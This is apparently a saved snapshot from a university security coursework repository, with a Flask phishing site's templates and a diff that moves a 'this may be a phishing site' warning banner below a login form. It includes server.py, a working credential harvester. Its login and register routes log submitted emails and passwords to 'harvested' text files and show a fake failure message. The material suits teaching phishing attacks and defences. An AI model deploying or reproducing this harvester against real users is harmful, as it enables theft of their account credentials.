
Repository: fuyu12345/ELEC0138Coursework_group10
Page: templates/warning.html
These files come from the project's save history. The page is drawn as it stood at one moment and after the next save; the edit follows.
The browser window is 1280 px wide. The pictures show the whole page.
The page is served by the project's application, run on Flask 3 (server.py). The template is opened directly, without the code that normally fills it, so the values that code supplies are empty.

Above is the page before, as saved 2025-04-16 21:42:17.

### attack_phishing/0138/phishing login/templates/warning.html
{% extends 'base.html' %}

{% block title %}Login{% endblock %}

{% block content %}
 <!-- 👇 闪烁警告框区域 -->
 <div class="alert alert-danger border border-danger flash-alert" role="alert">
    ⚠️ This website may be a phishing site. Please double-check the URL before logging in.
    If you suspect a fake site, contact: +44 77848279
</div>

<h2>Login</h2>
<form action="/login" method="POST">
  <div class="mb-3">
    <label for="email" class="form-label">Email address</label>
    <input type="email" class="form-control" id="email" name="email" required>
  </div>

  <div class="mb-3">
    <label for="password" class="form-label">Password</label>
    <input type="password" class="form-control" id="password" name="password" required>
  </div>

  <button type="submit" class="btn btn-primary">Login</button>
</form>
{% endblock %}

### attack_phishing/0138/phishing login/templates/base.html
<!DOCTYPE html>
<html lang="en">
<head>
    {% block head %}
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">

        <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-QWTKZyjpPEjISv5WaRU9OFeRpok6YctnYmDr5pNlyT2bRjXh0JMhjY6hW+ALEwIH" crossorigin="anonymous">
        <title>
        Pasta - {% block title %}{% endblock %}
        </title>
        <style>
            body {
                background: linear-gradient(to right, #dadd6c 0%, #adeb88 100%);
            }
        </style>
    {% endblock %}
</head>
<body>

    {% if session.user_id %}
        <header>
            {% include 'navbar.html' %}
        </header>
    {% endif %}
    <div id="content" class="container-fluid">
        {% with messages = get_flashed_messages(with_categories=true) %}
            {% if messages %}
                {% for category, message in messages %}
                    <div class="alert alert-{{ category }}">{{ message }}</div>
                {% endfor %}
            {% endif %}
        {% endwith %}

        {% block content %}{% endblock %}
    </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-YvpcrYf0tY3lHB60NNkmXc5s9fDVZLESaAA55NDzOxhy9GkcIdslK1eN7N6jIeHz" crossorigin="anonymous"></script>

</html>

### attack_phishing/0138/phishing login/server.py
from flask import Flask, request, render_template
from datetime import datetime
import os

app = Flask(__name__)

# Auto-create files with header line if not exist
for file in ['harvested_logins.txt', 'harvested_registers.txt']:
    if not os.path.exists(file):
        with open(file, 'w') as f:
            f.write("timestamp | email:password\n")

def harvest_credentials(source, email, password):
    timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    print(f"[{source.upper()}] {email}:{password}")
    with open(f"harvested_{source}s.txt", "a") as f:
        f.write(f"{timestamp} | {email}:{password}\n")

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        email = request.form.get('email')
        password = request.form.get('password')
        harvest_credentials('login', email, password)
        return "<h3>Login failed. Please try again later.</h3>"
    return render_template('login.html')

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        email = request.form.get('email')
        password = request.form.get('password')
        harvest_credentials('register', email, password)
        return "<h3>Registration failed. Please try again later.</h3>"
    return render_template('register.html')

@app.route('/')
def home():
    return render_template('index.html')

if __name__ == '__main__':
    app.run(port=5001, debug=True)

After the next save:

Saved 78 s later.
--- a/attack_phishing/0138/phishing login/templates/warning.html
+++ b/attack_phishing/0138/phishing login/templates/warning.html
@@ -3,11 +3,6 @@
 {% block title %}Login{% endblock %}
 
 {% block content %}
- <!-- 👇 闪烁警告框区域 -->
- <div class="alert alert-danger border border-danger flash-alert" role="alert">
-    ⚠️ This website may be a phishing site. Please double-check the URL before logging in.
-    If you suspect a fake site, contact: +44 77848279
-</div>
 
 <h2>Login</h2>
 <form action="/login" method="POST">
@@ -23,4 +18,9 @@
 
   <button type="submit" class="btn btn-primary">Login</button>
 </form>
+<!-- 👇 闪烁警告框区域 -->
+<div class="alert alert-danger border border-danger flash-alert" role="alert">
+    ⚠️ This website may be a phishing site. Please double-check the URL before logging in.
+    If you suspect a fake site, contact: +44 77848279
+</div>
 {% endblock %}
